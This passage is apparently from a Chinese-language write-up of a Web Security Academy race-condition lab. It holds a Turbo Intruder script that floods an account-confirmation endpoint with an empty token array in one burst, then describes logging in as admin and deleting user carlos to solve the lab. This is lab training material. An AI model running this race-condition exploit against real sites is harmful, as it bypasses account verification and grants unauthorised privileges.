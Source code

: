 ```plain
def queueRequests(target, wordlists):

        engine = RequestEngine(endpoint=target.endpoint,
                                concurrentConnections=1,
                                engine=Engine.BURP2
                                )

        confirmationReq = '''POST /confirm?token[]= HTTP/2
Host: 0a0f005704200d7b802b3a3c00da0084.web-security-academy.net
Cookie: phpsessionid=N7TCMvqWeGxy37t94UXs0WOxoetbsLHx
Content-Length: 0

    '''
        for attempt in range(20):
            currentAttempt = str(attempt)
            username = 'User' + currentAttempt

            # 队列化注册请求
            engine.queue(target.req, username, gate=currentAttempt)

            # 将50个确认请求排入队列 - 注意这可能会以两个独立数据包被发送
            for i in range(50):
                engine.queue(confirmationReq, gate=currentAttempt)

            # 把的所有队列中请求都发送出去(正确的是一次发51个包)
            engine.openGate(currentAttempt)

def handleResponse(req, interesting):
    table.add(req)
```

五、attack 之后俺 length 排序就可以找到注册成功的账号啦，之后登录账号即为管理员权限最后删除 carlos 账号即可通关

[![](assets/1705974099-943a44cbc0f876ad47a66e5cca92d324.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122071647-2646e4fc-b8b3-1.png)
